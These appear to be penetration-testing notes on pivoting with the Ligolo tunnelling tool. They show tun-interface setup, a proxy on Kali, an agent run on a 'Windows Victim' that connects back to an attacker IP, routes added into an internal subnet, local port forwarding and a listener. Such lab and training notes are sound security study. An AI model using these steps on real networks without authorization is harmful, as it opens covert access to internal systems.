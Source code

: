 - Proxy - Server
- Agent -> Client

```
sudo ip tuntap add user root mode tun ligolo
```

```
sudo ip link set ligolo up
```

Kali:
```
./proxy-lin -selfcert
```

Windows Victim:
```
.\ligolo-agent.exe -connect 192.168.45.158:11601 -ignore-cert
```

In Ligolo:
```
session
```
Choose session
Then:
```
ifconfig
```

In Kali Terminal
```
sudo ip route add 10.10.113.0/24 dev ligolo
```

Check it:
```
ip route list
```

Let's go back; execute `session`, choose `session`; Then:
```
start
```

## Local Port Forwarding

For example, there is a port on the host that is only visible for `127.0.0.1` at the victim, so you can to like that:

- After running the commands up (starting proxy; running agent; and start the session) add the command below on the Kali terminal (not in ligolo):

```
ip route add 240.0.0.1/32 dev ligolo
```

Then you will be able to see the local port forwarding on the given ip `240.0.0.1`.

# Listener
```
listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp
```
